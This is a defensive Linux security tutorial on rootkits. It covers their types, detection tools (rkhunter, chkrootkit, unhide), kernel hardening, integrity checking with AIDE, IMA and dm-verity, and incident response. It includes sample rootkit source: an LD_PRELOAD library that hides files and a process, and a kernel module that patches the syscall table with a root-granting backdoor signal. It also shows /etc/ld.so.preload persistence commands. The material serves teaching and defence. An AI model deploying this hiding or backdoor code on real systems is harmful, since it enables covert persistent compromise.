


# Rootkits: Detection, Defense, and Integrity Checking

## Introduction

A **rootkit** is a collection of software designed to enable continued privileged access to a computer while actively hiding its presence. Rootkits are among the most dangerous threats to Linux systems because they subvert the very tools administrators rely on to detect them—`ps`, `ls`, `netstat`, and even the kernel itself.

Understanding rootkits is essential for system defenders: you must know how they work to detect and prevent them. This chapter covers rootkit types, detection tools, defense strategies, and integrity checking.

## Rootkit Taxonomy

```mermaid
graph TD
    A[Rootkits] --> B[User-Mode Rootkits]
    A --> C[Kernel-Mode Rootkits]
    A --> D[Hypervisor Rootkits]
    A --> E[Bootkits]
    A --> F[Firmware Rootkits]
    
    B --> G[Replace system binaries]
    B --> H[LD_PRELOAD injection]
    B --> I[Environment manipulation]
    
    C --> J[Loadable kernel modules]
    C --> K[/dev/kmem modification]
    C --> L[Syscall table patching]
    C --> M[VFS layer hooks]
    
    D --> N[Below the OS]
    E --> N
    F --> N
```

## User-Mode Rootkits

User-mode rootkits operate in user space, replacing or intercepting system utilities.

### Binary Replacement

The simplest approach: replace system binaries with trojanized versions.

```bash
# Example: trojanized 'ls' that hides files starting with ".rootkit"
# Original ls shows all files; trojanized version filters output

# An attacker might replace:
/bin/ls          # Hides malicious files
/bin/ps          # Hides malicious processes
/bin/netstat     # Hides malicious connections
/usr/sbin/ss     # Hides network connections
/bin/login       # Backdoor password
/usr/bin/find    # Hides files in search results
```

Detection: Compare binaries against package manager database:

```bash
# Debian/Ubuntu
dpkg --verify

# RHEL/CentOS
rpm -Va

# Check specific binary
rpm -V coreutils
dpkg --verify coreutils

# Compare against known-good hash
sha256sum /bin/ls
sha256sum /usr/bin/ps
```

### LD_PRELOAD Rootkits

`LD_PRELOAD` allows loading a shared library before all others. A malicious library can intercept any libc function:

```c
/* malicious_lib.c — LD_PRELOAD rootkit */

#define _GNU_SOURCE
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>
#include <stdio.h>

/* Original readdir function pointer */
static struct dirent *(*original_readdir)(DIR *dirp) = NULL;

/* Hooked readdir — hides files containing ".rootkit" */
struct dirent *readdir(DIR *dirp) {
    if (!original_readdir) {
        original_readdir = dlsym(RTLD_NEXT, "readdir");
    }
    
    struct dirent *entry;
    while ((entry = original_readdir(dirp)) != NULL) {
        if (strstr(entry->d_name, ".rootkit") == NULL) {
            return entry;  /* Show this entry */
        }
        /* Skip hidden entries */
    }
    return NULL;  /* No more entries */
}

/* Hooked open — hide /proc entries */
static int (*original_open)(const char *pathname, int flags, ...) = NULL;

int open(const char *pathname, int flags, ...) {
    if (!original_open) {
        original_open = dlsym(RTLD_NEXT, "open");
    }
    
    /* Block access to our process's proc entry */
    if (strstr(pathname, "/proc/1337/")) {
        /* Return error — process doesn't exist */
        return -1;
    }
    
    return original_open(pathname, flags);
}
```

```bash
# LD_PRELOAD injection methods:

# 1. /etc/ld.so.preload (system-wide)
echo "/lib/libmalicious.so" > /etc/ld.so.preload

# 2. Per-user in .bashrc
export LD_PRELOAD=/tmp/libmalicious.so

# 3. In a service's environment
# Modify systemd unit file or init script
```

Detection:

```bash
# Check /etc/ld.so.preload
cat /etc/ld.so.preload

# Check environment of running processes
cat /proc/1/environ | tr '\0' '\n' | grep LD_PRELOAD

# Check for hidden libraries
ldd /bin/ls  # Should only show standard libs

# Inspect process memory maps
cat /proc/<pid>/maps | grep -v "deleted"
# Look for suspicious .so files

# Use LD_AUDIT to trace library loading
LD_AUDIT=libaudit.so /bin/ls
```

## Kernel-Mode Rootkits

Kernel rootkits operate in ring 0, giving them complete control over the system.

### Loadable Kernel Module (LKM) Rootkits

```c
/* Example: syscall table hooking rootkit (simplified) */

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>

/* Save original syscall pointers */
static asmlinkage long (*original_getdents64)(unsigned int fd,
    struct linux_dirent64 *dirp, unsigned int count);
static asmlinkage long (*original_kill)(pid_t pid, int sig);

/* Syscall table address (varies by kernel) */
unsigned long *sys_call_table;

/* Hooked getdents64 — hide files */
static asmlinkage long hooked_getdents64(unsigned int fd,
    struct linux_dirent64 *dirp, unsigned int count)
{
    long ret = original_getdents64(fd, dirp, count);
    
    /* Filter out entries containing ".rootkit" */
    /* Parse the dirent buffer and remove matching entries */
    
    return ret;
}

/* Hooked kill — hidden process communication */
static asmlinkage long hooked_kill(pid_t pid, int sig)
{
    if (sig == 64) {  /* Magic signal number */
        /* Backdoor: give root to requesting process */
        struct cred *new = prepare_creds();
        new->uid = GLOBAL_ROOT_UID;
        new->gid = GLOBAL_ROOT_GID;
        commit_creds(new);
        return 0;
    }
    return original_kill(pid, sig);
}

/* Make syscall table writable */
static void unprotect_memory(void) {
    /* Disable write protection on the syscall table page */
    write_cr0(read_cr0() & (~0x10000));
}

static void protect_memory(void) {
    write_cr0(read_cr0() | 0x10000);
}

static int __init rootkit_init(void) {
    sys_call_table = (unsigned long *)kallsyms_lookup_name("sys_call_table");
    
    unprotect_memory();
    original_getdents64 = (void *)sys_call_table[__NR_getdents64];
    sys_call_table[__NR_getdents64] = (unsigned long)hooked_getdents64;
    original_kill = (void *)sys_call_table[__NR_kill];
    sys_call_table[__NR_kill] = (unsigned long)hooked_kill;
    protect_memory();
    
    return 0;
}

static void __exit rootkit_exit(void) {
    unprotect_memory();
    sys_call_table[__NR_getdents64] = (unsigned long)original_getdents64;
    sys_call_table[__NR_kill] = (unsigned long)original_kill;
    protect_memory();
}

module_init(rootkit_init);
module_exit(rootkit_exit);
MODULE_LICENSE("GPL");
```

### Modern Kernel Rootkit Techniques

Modern kernel rootkits use more sophisticated techniques:



**VFS Hooking** (harder to detect than syscall table patching):

```c
/* Hook the VFS readdir operation for a specific directory */
static struct file_operations *original_fops;
static struct dir_context *original_ctx;

static int hooked_iterate_shared(struct file *file, struct dir_context *ctx) {
    /* Call original, then filter results */
    int ret = original_iterate(file, ctx);
    /* Remove hidden entries from dir_context */
    return ret;
}
```

**Direct Kernel Object Manipulation (DKOM)**:

```c
/* Hide a process by unlinking it from the task list */
list_del_init(&target_task->tasks);
/* The process still runs but 'ps' won't find it */
```

### Detection of Kernel Rootkits

```bash
# Check for loaded kernel modules
lsmod

# Compare against known-good list
cat /proc/modules

# Check for hidden modules (compare /proc/modules with /sys/module/)
diff <(lsmod | awk '{print $1}' | sort) \
     <(ls /sys/module/ | sort)

# Check syscall table integrity
# Tools like 'diamorphine' rootkit hide from lsmod
# Use /proc/kallsyms to check for hooked functions
cat /proc/kallsyms | grep sys_call_table

# Check for ftrace/kprobe hooks
cat /sys/kernel/debug/tracing/enabled
cat /sys/kernel/debug/kprobes/enabled

# Check /proc for hidden processes
ls /proc/ | grep -E '^[0-9]+$' | sort -n
# Compare with 'ps' output

# Use 'unhide' tool
unhide proc  # Find hidden processes
unhide sys   # Find hidden processes via /proc vs syscall comparison
unhide tcp   # Find hidden network connections
```

## Detection Tools

### rkhunter (Rootkit Hunter)

```bash
# Install
apt install rkhunter    # Debian/Ubuntu
yum install rkhunter    # RHEL/CentOS

# Update database
rkhunter --update

# Full system check
rkhunter --check

# Check specific categories
rkhunter --check --skip-keypress --rwo  # Report warnings only

# What rkhunter checks:
# - System binaries (MD5/SHA comparison)
# - Rootkit files and directories
# - Suspicious strings in binaries
# - Hidden files and directories
# - Known rootkit signatures
# - Network interfaces
# - System configuration
```

```bash
# rkhunter configuration: /etc/rkhunter.conf
# Key settings:
ALLOW_SSH_ROOT_USER=no
ALLOW_SSH_PROT_V1=0
SCRIPTWHITELIST=/usr/bin/egrep
SCRIPTWHITELIST=/usr/bin/fgrep
HIDDEN_DEV_DIR="/dev/.udev"
```

### chkrootkit

```bash
# Install
apt install chkrootkit

# Run
chkrootkit

# What it checks:
# - System binaries for known rootkit signatures
# - LKM rootkits (check /proc for anomalies)
# - Network promiscuous mode
# - Hidden processes
# - Suspicious log entries
```

### Detection Comparison

| Feature | rkhunter | chkrootkit |
|---------|----------|------------|
| Binary integrity | MD5/SHA hash checks | String/signature matching |
| Rootkit signatures | Extensive database | Moderate database |
| Configuration | /etc/rkhunter.conf | Command-line options |
| Regular updates | Yes (--update) | Manual |
| False positives | Moderate | Higher |
| Active development | Yes | Limited |

## Defense Strategies

### Secure Boot and Module Signing

```bash
# Enable module signature verification
# Kernel config:
CONFIG_MODULE_SIG=y
CONFIG_MODULE_SIG_FORCE=y
CONFIG_MODULE_SIG_SHA256=y

# Generate signing key
scripts/sign-file sha256 certs/signing_key.pem \
    certs/signing_key.x509 module.ko

# Verify module signature
modinfo module.ko | grep sig

# Lockdown mode (kernel 5.4+)
echo integrity > /sys/kernel/security/lockdown
# Or: confidentiality (most restrictive)
```

### Kernel Lockdown

```bash
# Kernel lockdown prevents even root from:
# - Loading unsigned modules
# - Using kexec to load a new kernel
# - Accessing /dev/mem, /dev/kmem
# - Modifying kernel memory via eBPF
# - Using hibernation (with confidentiality mode)

# Enable at boot (GRUB)
# GRUB_CMDLINE_LINUX="lockdown=integrity"

# Check lockdown status
cat /sys/kernel/security/lockdown
# [none] integrity confidentiality
```

### Secure Module Loading

```bash
# Disable module loading after boot
echo 1 > /proc/sys/kernel/modules_disabled
# WARNING: Cannot be reversed until reboot

# Allow only signed modules (module.sig_enforce=1)
# /etc/modprobe.d/secure.conf
# options module.sig_enforce=1

# Blacklist unnecessary modules
# /etc/modprobe.d/blacklist.conf
blacklist dccp
blacklist sctp
blacklist rds
blacklist tipc
```

### Restricting /proc and /sys

```bash
# Hide kernel symbols
echo 1 > /proc/sys/kernel/kptr_restrict

# Restrict dmesg access
echo 1 > /proc/sys/kernel/dmesg_restrict

# Restrict perf_event access
echo 3 > /proc/sys/kernel/perf_event_paranoid

# Restrict eBPF access
echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled
```

## Integrity Checking

### AIDE (Advanced Intrusion Detection Environment)

```bash
# Install
apt install aide

# Initialize database
aideinit
# Creates /var/lib/aide/aide.db.new

# Move to active database
mv /var/lib/aide/aide.db.new /var/lib/aide/aide.db

# Check system integrity
aide --check

# Update database after legitimate changes
aide --update
mv /var/lib/aide/aide.db.new /var/lib/aide/aide.db
```

```ini
# /etc/aide/aide.conf

# Database location
database_in=file:/var/lib/aide/aide.db
database_out=file:/var/lib/aide/aide.db.new

# What to check
# p: permissions  i: inode  n: number of links
# u: user         g: group  s: size
# b: block count  m: mtime  a: atime
# c: ctime        S: check for growing size
# md5: MD5 hash   sha256: SHA-256 hash
# rmd160: RIPEMD-160  tiger: Tiger hash

# Full check for system binaries
/bin    Full
/sbin   Full
/usr/bin  Full
/usr/sbin Full
/lib    Full
/usr/lib  Full

# Check config files
/etc    Full

# Check boot files
/boot   Full

# Ignore dynamic directories
!/var/log
!/var/spool
!/var/cache
!/tmp
!/proc
!/sys
!/dev
!/run
```

### IMA/EVM (Integrity Measurement Architecture)

The kernel's built-in integrity framework:

```bash
# IMA measures and appraises file integrity
# EVM protects file metadata (xattrs) from tampering

# Enable IMA at boot
# GRUB: ima_policy=tcb ima_appraise=enforce

# IMA policies (in kernel or /etc/ima/ima-policy)
# Measure all executed files
measure func=BPRM_CHECK
# Appraise all executed files
appraise func=BPRM_CHECK fmask=0022
# Measure all files read by root
measure func=FILE_MMASK mask=MAY_READ uid=0

# View IMA measurements
cat /sys/kernel/security/ima/ascii_runtime_measurements
```



### dm-verity

For read-only partitions (used by Android and container images):

```bash
# dm-verity provides integrity verification for block devices
# Uses a Merkle tree of block hashes

# Create verity device
veritysetup format /dev/sda1 /dev/sda2
# /dev/sda1 = data, /dev/sda2 = hash tree

# Open verity device
veritysetup open /dev/sda1 myroot /dev/sda2 <root_hash>

# In fstab
# /dev/mapper/myroot / ext4 ro 0 0
```

## Incident Response

When a rootkit is suspected:

```bash
# 1. DO NOT reboot (volatile evidence will be lost)
# 2. Capture memory
# Use LiME (Linux Memory Extractor)
insmod lime.ko "path=/tmp/mem.lime format=lime"

# 3. Compare binaries from live system vs known-good
sha256sum /bin/* /sbin/* /usr/bin/* /usr/sbin/* > /tmp/live_hashes.txt
diff /tmp/live_hashes.txt /known_good_hashes.txt

# 4. Check for hidden processes
ls /proc/ | grep -E '^[0-9]+$' | sort -n > /tmp/proc_ls.txt
ps -eo pid | sort -n > /tmp/proc_ps.txt
diff /tmp/proc_ls.txt /tmp/proc_ps.txt

# 5. Check for hidden network connections
ss -tlnp > /tmp/ss_live.txt
cat /proc/net/tcp > /tmp/proc_net.txt
# Compare for discrepancies

# 6. Check loaded modules
lsmod > /tmp/lsmod.txt
ls /sys/module/ > /tmp/sysmod.txt
diff <(lsmod | awk '{print $1}' | sort) <(ls /sys/module/ | sort)

# 7. Check for LD_PRELOAD
cat /etc/ld.so.preload
for pid in $(ls /proc/ | grep -E '^[0-9]+$'); do
    cat /proc/$pid/environ 2>/dev/null | tr '\0' '\n' | grep LD_PRELOAD
done

# 8. Use rkhunter/chkrootkit
rkhunter --check --skip-keypress
chkrootkit
```

## Further Reading

- [rkhunter Documentation](http://rkhunter.sourceforge.net/) — Rootkit Hunter project
- [chkrootkit](http://www.chkrootkit.org/) — chkrootkit project
- [AIDE Manual](https://aide.github.io/) — AIDE documentation
- [Linux kernel docs: IMA](https://docs.kernel.org/security/IMA.html) — Integrity Measurement Architecture
- [LWN: Kernel rootkits](https://lwn.net/Articles/426391/) — Kernel rootkit techniques
- [man7.org: modules](https://man7.org/linux/man-pages/man5/modules-load.d.5.html) — Module loading
- [Kernel docs: Module signing](https://docs.kernel.org/admin-guide/module-signing.html) — Module signature verification
- [Kernel docs: Lockdown](https://docs.kernel.org/security/lockdown.html) — Kernel lockdown
- [dm-verity](https://docs.kernel.org/admin-guide/device-mapper/verity.html) — Device mapper verity
